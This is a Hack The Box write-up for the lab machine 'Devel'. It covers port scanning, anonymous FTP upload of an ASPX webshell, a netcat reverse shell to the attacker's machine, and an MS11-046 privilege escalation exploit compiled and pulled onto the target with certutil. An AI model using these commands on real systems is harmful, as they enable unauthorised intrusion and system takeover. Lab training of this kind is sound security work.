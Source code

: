 # Devel 

**Links:** [1](https://www.hackthebox.com/machines/Devel)  [2](https://app.hackthebox.com/machines/Devel)

**Machine ip:** 10.10.10.5

![devel](https://github.com/h4md153v63n/CTFs/assets/5091265/9ab7e4a6-088a-4d20-88e1-5bc25641cfa1)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.5 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.5 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/fd580f7a-f9d8-4301-9fd7-82b27bb870e8)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/346d5392-a21f-4dde-b88b-5d98570477a1)


## Enumeration
```
ftp anonymous@10.10.10.5

# or

ftp 10.10.10.5

Name (10.10.10.5:kali): anonymous
Password:

dir
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5149c861-836c-4c01-adf3-c5e5c3ad24d8)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/239327b2-ccb6-453a-9645-357665efbd90)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8f62462c-3a38-4713-85c3-4d48866cbec0)


## Exploitation & Gaining Access
Download, and transfer asp webshell using [cmd.aspx](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx).

**Alternatively**, use **msfvenom** [1](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/devel-writeup-w-o-metasploit#id-4ff1) [2](https://systemweakness.com/htb-devel-4a205fd1aa25)

```
# On the target machine with ftp connection:
put cmd.aspx

dir
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cf0496fc-5036-426f-9943-52b96ec96bd1)

Navigate to "http://10.10.10.5/cmd.aspx", and get a webshell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a37e66b5-b01c-4d6a-b2bb-bd8c4c0b464b)

Trigger the reverse shell:

```
# On the kali attack vm:
ls /usr/share/windows-binaries

smbserver.py tmp /usr/share/windows-binaries

nc -lnvp 4444

# On the webshell:
Program: \\10.10.14.24\tmp\nc.exe

Arguments: -e cmd.exe 10.10.14.24 4444

Run
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/34e2978a-e667-4b52-be83-934e27050b5a)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/78cf0d24-8148-458c-9b1d-bb9f20707968)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1f5378dd-6bf9-42f4-86ab-3d02c331d11b)


## Privilege Escalation
```
# On the target machine:
systeminfo
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/89b2ddc2-3b53-41b6-9dc8-56745f3290dc)

Search  **windows 7 build 7600 x86 privilege escalation** on the internet.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5f6364c1-4f41-4730-be7a-50517bec0105)

Donwload, and try [**CVE-2011-1249**](https://www.exploit-db.com/exploits/40564).

```
# On the kali attack vm:
searchsploit ms11-046

searchsploit -m 40564

sed -n '60,70p' 40564.c
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ab0cef06-f654-4927-88ed-0cc94bdc4a2f)

```
# On the kali attack vm:
# Compile:
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32

sudo python3 -m http.server

# On the target machine:
cd Users\Public\Downloads

certutil.exe -urlcache -split -f "http://10.10.14.24:8000/MS11-046.exe" MS11-046.exe

MS11-046.exe
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bdb02526-aad4-4391-86f4-7160e7e7ab36)



# References & Alternatives
+ https://vvmlist.github.io/#devel
+ https://systemweakness.com/htb-devel-4a205fd1aa25
+ rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/devel-writeup-w-o-metasploit


## CVE Scripting
+ **CVE-2011-1249 / MS11–046 / afd.sys** https://www.exploit-db.com/exploits/40564


## Tools
+ **webshell / cmd.aspx:** https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx
  + https://github.com/nikicat/web-malware-collection/blob/master/Backdoors/ASP/cmd.aspx
+ **msfvenom:** https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom


## Technical Knowledge
+ x


## Problems Solution
+ x


## For More
+ x
